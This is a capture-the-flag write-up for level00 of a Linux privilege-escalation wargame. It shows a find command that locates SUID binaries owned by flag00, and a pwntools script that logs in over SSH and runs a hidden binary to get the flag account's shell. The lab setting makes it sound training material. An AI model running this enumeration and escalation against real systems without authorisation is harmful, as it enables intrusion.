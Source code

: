 # Level00

#### Description

> This level requires you to _find_ a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.
>
> Alternatively, look at the find man page.
>
> To access this level, log in as level00 with the password of level00.

#### Solution

We just to find SUID set binaries which will run as the 'flag00' account. We can simply find them via a find command:

```
find / -type f -perm -4000 -user flag00 2>/dev/null
```

<figure><img src="../../../.gitbook/assets/image (55).png" alt=""><figcaption></figcaption></figure>

Here we got 2 binaries, let's check both of them

* `/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

* `/rofs/bin/.../flag00`

<figure><img src="../../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

By running any of the above binary, we got the flag00's account shell.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

if len(argv) < 2:
	sys.exit("IP address not found.")

session = ssh(host=argv[1], user='level00', password='level00')

terminal = session.process('/bin/.../flag00')
terminal.sendline('getflag')
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

***
